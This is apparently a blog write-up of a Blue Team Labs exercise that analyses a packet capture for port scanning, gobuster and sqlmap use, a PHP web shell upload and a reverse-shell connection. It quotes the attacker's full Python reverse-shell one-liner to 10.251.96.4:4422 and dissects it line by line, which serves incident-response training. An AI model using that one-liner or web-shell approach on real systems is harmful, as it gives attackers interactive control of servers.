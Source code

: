```yaml
---
draft: false
author: ladybuginthemug
title: Web shell - network analysis 
description: The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. 
date: 2024-1-6
category:
  - blueteamlabs
---
```


>Scenario
>
>The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

My usual approach is to move back and forth from general statistics to close up investigation of streams. 

### PORT SCANNING 

So I would start with **Statistics** -> **Endpoints** -> **TCP** .  By sorting ports we can instantly identify port incrementation that is indication of the port scanning.

![ports-last](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/64ed0c5d-ed6f-4bb3-ad10-a3d81182d0c5)


The stream reveals that `10.251.96.4` is the IP responsible for conducting the `TCP SYN` port scan activity in the port range of `1-1024`

![TCPSYNscan](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/5c3f9638-fb2e-40e2-af00-aaf537610f87)


Surly enough we would be able to find more automation tools around. Simple search for user agents with `tshark` :

```
└─$ tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u
Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)

```
It will reveal the tools used which are `Gobuster 3.0.1`,
![gobuster](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/c2578128-05ad-4ecb-be9d-5fc636077665)


and   `sqlmap 1.4.7`

![sql](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/12fab041-a8b6-46f6-a133-08a75a89bd0b)


---
### FILE UPLOAD


**Export objects** -> **HTTP** 

![upload](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/71bdf96f-fb65-420e-af04-7efa4d6273e1)


The attacker used `editprofile.php` to upload a web shell `dbfunctions.php`:  

```
"16102","2021-02-07 16:40:39.693318843","10.251.96.4","10.251.96.5","HTTP","1087","POST /upload.php HTTP/1.1  (application/x-php)"
"16106","2021-02-07 16:40:43.892078780","10.251.96.4","10.251.96.5","HTTP","433","GET /uploads/ HTTP/1.1 "
"16110","2021-02-07 16:40:43.925237417","10.251.96.4","10.251.96.5","HTTP","401","GET /icons/unknown.gif HTTP/1.1 "
"16115","2021-02-07 16:40:43.928118120","10.251.96.4","10.251.96.5","HTTP","400","GET /icons/image2.gif HTTP/1.1 "
"16121","2021-02-07 16:40:45.168306955","10.251.96.4","10.251.96.5","HTTP","486","GET /uploads/dbfunctions.php HTTP/1.1 "
```
![webshell](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/49fdf490-a307-4820-a55d-1164ebff6bc9)


We can spot first commands used in the web shell :

```
"16134","2021-02-07 16:40:51.125681644","10.251.96.4","10.251.96.5","HTTP","455","GET /uploads/dbfunctions.php?cmd=id HTTP/1.1 "
"16144","2021-02-07 16:40:56.263731727","10.251.96.4","10.251.96.5","HTTP","459","GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1 "
"16201","2021-02-07 16:42:35.675646891","10.251.96.4","10.251.96.5","HTTP","706","GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 "
```

The last request is trying to exploit a vulnerability in the server by injecting a Python one-liner that establishes a reverse shell connection to the specified IP and port in the following steps:

- Imports the socket, subprocess, and os modules.
```
python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
```
- Creates a socket and connects to the IP address 10.251.96.4 on port 4422.
```
s.connect(("10.251.96.4",4422));
```
- Duplicates the socket's file descriptor to the standard input (0), standard output (1), and standard error (2).
```
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
```
- Calls /bin/sh (a shell) with the -i flag, which starts an interactive shell.

```
p=subprocess.call(["/bin/sh","-i"]);
```

---

### SHELL CONNECTION

![shell-python](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/52058542-85ec-48c7-b96f-916ca5739572)


Following tcp stream on port 4422, we can confirm that the reverse shell connection is established. 

The attempts to escalate privileges appear to have been made by executing commands such as `python -c 'import pty; pty.spawn("/bin/bash")'` and `bash -i`. These commands are commonly used to attempt to gain a more interactive shell or elevate privileges.

However, there is no explicit indication in the log that these privilege escalation attempts were successful. The user continues to operate with the same username `www-data` and there are no indications of a change in privileges or access to restricted areas of the file system.

